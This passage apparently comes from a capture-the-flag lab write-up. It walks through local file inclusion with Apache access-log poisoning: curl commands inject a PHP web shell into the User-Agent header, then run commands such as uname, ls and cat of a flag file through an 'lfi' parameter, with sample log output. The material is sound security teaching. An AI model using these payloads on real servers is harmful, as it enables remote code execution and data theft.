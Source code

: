 Output similar to following is intended.
{% capture code %}{% raw %}File included: /var/log/apache2/access.log<br><br><br>
Local file to be used: /var/log/apache2/access.log<br><br>
<source> - - [23/Dec/2020:00:10:24 -0800] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 286 "-" "curl/7.64.0"
<source> - - [23/Dec/2020:00:10:33 -0800] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 419 "-" "curl/7.64.0"
<source> - - [23/Dec/2020:00:10:51 -0800] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 552 "-" "Mozilla/5.0 <flag> Firefox/78.0"{% endraw %}{% endcapture %} {% include code.html code=code %}

To get flag from lfi user's home directory, check the contents of `/home/lfi` to find file name.
Repeat the Burp process with the url `http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls%20/home/lfi`.
Repeat the Burp process with the url `http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20/home/lfi/flag.txt`.


### Log poison using Curl

The User-Agent can be modified in curl using either `-H` of `-A` options.

Use the following command to inject the code to log file.
{% capture code %}{% raw %}curl -H $'User-Agent: Mozilla/5.0 <?php system($_GET[\'lfi\']); ?> Firefox/78.0' 'http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log'{% endraw %}{% endcapture %} {% include code.html code=code %}

Use the following command to get response.
{% capture code %}{% raw %}curl -H $'User-Agent: Mozilla/5.0 <?php system($_GET[\'lfi\']); ?> Firefox/78.0' 'http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r'{% endraw %}{% endcapture %} {% include code.html code=code %}

Response will be similar to following.
{% capture code %}{% raw %}File included: /var/log/apache2/access.log<br><br><br>
Local file to be used: /var/log/apache2/access.log<br><br>
<source> - - [23/Dec/2020:00:10:24 -0800] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 286 "-" "curl/7.64.0"
<source> - - [23/Dec/2020:00:10:33 -0800] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 419 "-" "curl/7.64.0"
<source> - - [23/Dec/2020:00:10:51 -0800] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 552 "-" "Mozilla/5.0 <flag> Firefox/78.0"{% endraw %}{% endcapture %} {% include code.html code=code %}

To get flag from lfi user's home directory, check the contents of `/home/lfi` to find file name.
Use the following command,
{% capture code %}{% raw %}curl -H $'User-Agent: Mozilla/5.0 <?php system($_GET[\'lfi\']); ?> Firefox/78.0' 'http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls%20/home/lfi'{% endraw %}{% endcapture %} {% include code.html code=code %}

Get the flag, using the following command,
{% capture code %}{% raw %}curl -H $'User-Agent: Mozilla/5.0 <?php system($_GET[\'lfi\']); ?> Firefox/78.0' 'http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20/home/lfi/flag.txt'{% endraw %}{% endcapture %} {% include code.html code=code %}

